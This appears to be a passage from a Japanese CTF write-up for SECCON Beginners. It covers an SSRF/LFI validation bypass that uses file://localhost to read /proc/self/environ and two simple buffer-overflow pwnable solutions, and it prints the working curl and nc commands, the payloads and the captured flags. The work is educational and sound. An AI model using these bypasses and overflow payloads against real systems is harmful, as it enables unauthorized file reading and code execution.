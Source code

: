 curlが解釈できるURLの形式かつ`file://`以降がPythonの`os.path.exists()`では解釈できない（これが`False`を返す）ようなURLが必要になる。

`file`URIスキームはホスト名にlocalhostを指定可能であり、たとえば`file:///etc/hosts`は`file://localhost/etc/hosts`と表現できる。

`file://localhost/etc/hosts`をLFIのバリデーションに通すと、`os.path.exists("/localhost/etc/hosts")`のようになり存在しないパスと解釈されるため、このバリデーション処理をバイパスすることができる。

任意のファイルを参照できることがわかり、さらにdocker-compose.ymlからフラグは環境変数にロードされていることがわかるので、[`/proc/self/environ`を参照すれば](https://blog.hamayanhamayan.com/entry/2021/12/08/220449)フラグが得られる。

```
▶ curl -s 'https://ssrforlfi.beginners.seccon.games/?url=file://localhost/proc/self/environ' | rg --text -o --regexp 'ctf4b\{.*\}'
ctf4b{1_7h1nk_bl0ck3d_b07h_55rf_4nd_lf1}
```

curlのWarningが攻撃対象サーバー側で起きていると勘違いしていて、余計な時間を食ってしまった。

```
Warning: Binary output can mess up your terminal. Use "--output -" to tell 
Warning: curl to output it to your terminal anyway, or consider "--output 
Warning: <FILE>" to save to a file.
```

`file://localhost/etc/hosts`のような表現方法があること、環境変数をファイル参照から取得できることは知らなかったので勉強になった。

### pwnable: simpleoverflow

正直のところ原理をちゃんと理解しておらず完全に雰囲気だが、適当に文字をぶっこんでオーバーフローさせた。

```
▶ python3 -c "print('A'*10)" | nc simpleoverflow.beginners.seccon.games 9000
name:Hello, AAAAAAAAAA

ctf4b{0n_y0ur_m4rk}
```

### pwnable: simpleoverwrite

こちらも正直のところ原理を理解しておらず雰囲気だが、`main`関数のリターンアドレスを`win`関数のアドレスで書き換えればいいということだけは文字として知っているので、それっぽいことをした。

とりあえず、objdumpで`win`関数のアドレスを調べる。

```
objdump -d ./chall | grep win
0000000000401186 <win>:
```

オーバーライトに必要な文字数がよくわかっていないが、雑に試したら通ったのでヨシ。

```sh
#!/bin/bash

# solve.sh
for ((i = 2; i <= 30; i++)); do
    python3 -c "print('A' * $i + '\x86\x11\x40\x00\x00\x00\x00\x00')" | nc simpleoverwrite.beginners.seccon.games 9001
done
```
